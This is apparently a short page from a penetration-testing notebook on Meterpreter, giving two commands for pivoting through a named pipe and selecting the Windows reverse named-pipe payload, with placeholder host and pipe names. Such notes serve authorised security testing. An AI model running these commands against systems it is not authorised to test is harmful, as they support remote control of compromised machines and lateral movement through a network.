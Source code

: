 ```yaml
---
cover: .gitbook/assets/Standard Banner.jpg
coverY: 0
---
```


# Meterpreter

#### Pivoting in Meterpreter
`pivot add -t pip -l PIPEHOST -n PIPENAME -a <x86 or x64> -p windows`

`set payload windows/meterpreter/reverse_named_pipe`
